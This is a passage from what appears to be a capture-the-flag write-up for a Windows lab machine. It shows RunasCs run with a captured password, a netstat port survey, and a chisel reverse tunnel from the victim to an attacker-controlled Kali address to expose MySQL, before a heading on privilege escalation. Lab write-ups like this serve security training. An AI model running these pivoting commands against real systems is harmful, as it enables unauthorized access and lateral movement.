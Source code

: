 {% embed url="https://github.com/antonioCoco/RunasCs" %}

```
C:\xampp\htdocs>.\RunasCs.exe thecybergeek winniethepooh "whoami"     
.\RunasCs.exe thecybergeek winniethepooh "whoami"
craft2\thecybergeek

C:\xampp\htdocs>.\RunasCs.exe thecybergeek winniethepooh "whoami /priv"
.\RunasCs.exe thecybergeek winniethepooh "whoami /priv"

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The user had nothing interesting though.

### MySQL Arbitrary Write --> WerTrigger

I checked the ports open on the machine, and found quite a few such as HTTPS and MySQL not publicly facing:

```
C:\xampp\htdocs>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2376
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       2376
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       2004
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       516
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       388
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1132
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       652
```

Interesting. We can forward this using `chisel.exe`.&#x20;

```bash
## on kali
chisel server -p 6000 --reverse

## on victim
chisel.exe client 192.168.45.197:6000 R:3306:127.0.0.1:3306
```
